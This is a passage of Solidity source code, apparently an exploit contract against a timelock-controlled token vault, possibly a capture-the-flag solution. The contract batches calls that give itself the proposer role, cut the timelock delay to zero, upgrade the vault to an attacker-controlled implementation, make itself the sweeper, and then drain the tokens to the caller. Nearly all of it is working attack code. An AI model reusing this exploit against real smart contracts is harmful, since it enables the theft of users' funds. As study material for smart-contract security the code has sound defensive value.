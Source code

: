 ```
        require(ok, "call failed");
    }

    function prepareData(string memory fnName) private view returns (bytes memory) {
        address[] memory targets = new address[](5);
        targets[0] = timelock;
        targets[1] = targets[0];
        targets[2] = vault;
        targets[3] = targets[2];
        targets[4] = address(this);

        uint256[] memory values = new uint256[](5);

        bytes[] memory dataElements = new bytes[](5);

        dataElements[0] = abi.encodeWithSignature(
            "grantRole(bytes32,address)",
            PROPOSER_ROLE,
            address(this)
        );

        dataElements[1] = abi.encodeWithSignature("updateDelay(uint64)", 0);

        dataElements[2] = abi.encodeWithSignature(
            "upgradeTo(address)",
            attackerVault
        );

        dataElements[3] = abi.encodeWithSignature(
            "_setSweeper(address)",
            address(this)
        );

        dataElements[4] = abi.encodeWithSignature("makeSchedule()");

        bytes memory data = abi.encodeWithSignature(
            fnName,
            targets,
            values,
            dataElements,
            ""
        );
        return data;
    }

    function sweepFunds() private {
        bytes memory data = abi.encodeWithSignature("sweepFunds(address)", token);

        (bool ok, ) = address(vault).call(data);
        require(ok, "call failed");

        IERC20(token).transfer(msg.sender, 10000000 ether);
    }
}
```
